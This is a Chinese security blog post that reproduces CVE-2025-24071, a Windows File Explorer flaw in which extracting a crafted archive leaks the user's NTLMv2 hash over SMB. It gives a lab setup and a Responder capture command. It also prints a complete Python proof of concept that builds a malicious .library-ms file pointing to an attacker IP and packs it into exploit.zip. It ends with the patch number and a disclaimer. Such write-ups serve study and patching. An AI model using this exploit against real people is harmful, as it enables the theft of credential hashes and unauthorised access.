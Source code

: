 #  【漏洞复现】CVE-2025-24071｜Windows 文件资源管理器欺骗漏洞   
 sec0nd安全   2025-04-19 12:59  
  
            
  
0x00 前言  
  
  
Window  
s  
文件资源管理器（File Explorer）是Windows操作系统的核心组件，主要用于浏览、管理和操作本地及网络文件、文件夹、驱动器等资源。它提供直观的图形化界面，支持文件创建、复制、移动、删除、重命名等基础操作，同时集成网络共享访问、外部设备管理、文件搜索与筛选等高级功能，是多任务文件处理的核心工具‌。  
  
        
  
      
  
0x01 漏洞描述  
  
            
  
Windows资源管理器在解压包含特制 .library-ms文件的 RAR/ZIP 存档时，会自动解析该文件内嵌的恶意SMB路径（如 \\192.168.1.116\shared），触发隐式NTLM认证握手，导致用户NTLMv2哈希泄露。  
  
  
           
  
0x02 漏洞复现  
  
            
  
(1)准备工具  
```
Windows系统（被攻击）IP:192.168.2.11
Kali Linux（攻击）IP:192.168.2.12
CVE-2025-24071的POC文件a.py
Kali Linux中间人工具responder
```  
  
         
  
(2)复现过程   
  
1、设置windows的IP地址：192.168.2.11  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6up1gMsFGLBJ0iaIDSdg8LnCWblqac9AJGPcTevwwsqPSvOf9c51MfdVGugzp2rrfIiaxUsGdLHm9lpg/640?wx_fmt=png "")  
  
               
  
2、设置kali的IP地址：192.168.2.12  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6up1gMsFGLBJ0iaIDSdg8LnCWuH1dBJEbv6JGWpI4IcU0reficzenhS2eLHj99suWWCq8m7aUAMS66hg/640?wx_fmt=png "")  
  
            
  
3、在kali中打开responder中间人工具，终端执行命令：  
```
sudo responder -I eth0 -v
```  
  
                  
      
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6up1gMsFGLBJ0iaIDSdg8LnCWUYXnUYiciaibSsmGlkHHZIYALzRXiaxt1uxQuWoVdquGwXIJ59Yuia5IGbQ/640?wx_fmt=png "")  
  
            
  
4、生成恶意压缩包，终端执行命令python a.py   
  
            
  
a.py内容如下：           
```
import os
import zipfile
def main():
    file_name = input("Enter your file name: ")
    ip_address = input("Enter IP (EX: 192.168.1.162): ")
    library_content = f"""<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\\\{ip_address}\\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
"""
    library_file_name = f"{file_name}.library-ms"
    with open(library_file_name, "w", encoding="utf-8") as f:
        f.write(library_content)
    with zipfile.ZipFile("exploit.zip", mode="w", compression=zipfile.ZIP_DEFLATED) as zipf:
        zipf.write(library_file_name)
    if os.path.exists(library_file_name):
        os.remove(library_file_name)
    print("completed")
if __name__ == "__main__":
    main()

```  
  
                    
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6up1gMsFGLBJ0iaIDSdg8LnCWRxL2F8XYTFxicAHh9BGIoy90iaIFjHx4v5NiaD4ic45BV6ppg6OgibmpMOg/640?wx_fmt=png "")  
  
                   
  
5、把生成的exploit.zip压缩包放到windows系统中解压。  
  
                   
      
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6up1gMsFGLBJ0iaIDSdg8LnCW1sO7CR4VlaOhyPIFaQxq6xtXTJNpnvGFev27vgspg3Ty1uYt0VCRmQ/640?wx_fmt=png "")  
  
                    
  
6、kali系统中成功获取到windows的hash  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6up1gMsFGLBJ0iaIDSdg8LnCW18whNLHbQ1PIt20FDCjTibk3o52fOAiazricg2uEeD3pyCibO73GwXN6zA/640?wx_fmt=png "")  
  
      
  
        
  
0x03 漏洞补丁  
  
  
编号：KB5053606  
      
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6up1gMsFGLBJ0iaIDSdg8LnCW4fAOl3r77iaC97zNqumeaib2Bnc7h80BRibe9yybU5eMXuTmsCdDk2gnQ/640?wx_fmt=png "")  
  
           
  
  
0x04 参考链接  
  
            
  
https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-24071  
  
            
  
            
  
            
  
推荐阅读：  
        
  
  
【漏洞复现】LimeSurvey XSS漏洞  
  
  
[【漏洞复现】CVE-2023-2640 Ubuntu本地权限提升](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247484627&idx=1&sn=251a78ec1ad98d3e3b4400525a7b08bf&scene=21#wechat_redirect)  
  
  
  
[【漏洞复现】CVE-2023-38831 WinRAR代码执行漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247484513&idx=1&sn=0fc004e592088c252a8a6ebfc33c3ea0&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持  
![图片](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
